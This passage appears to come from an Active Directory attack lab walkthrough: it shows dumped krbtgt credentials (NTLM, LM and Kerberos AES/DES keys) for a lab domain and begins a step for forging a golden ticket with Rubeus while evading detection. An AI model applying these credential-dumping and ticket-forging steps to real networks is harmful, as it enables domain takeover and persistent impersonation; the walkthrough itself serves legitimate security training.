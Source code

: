 ```
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502📌
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986🔑
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848🔑
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80
      
[SNIP]
```
🚩

2. **Using the secrets of `krbtgt` account, create a golden ticket**

Use the below Rubeus command to **generate an OPSEC friendly command for golden ticket**.

Note that 3 LDAP queries are sent to the DC to retrieve the required information.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)
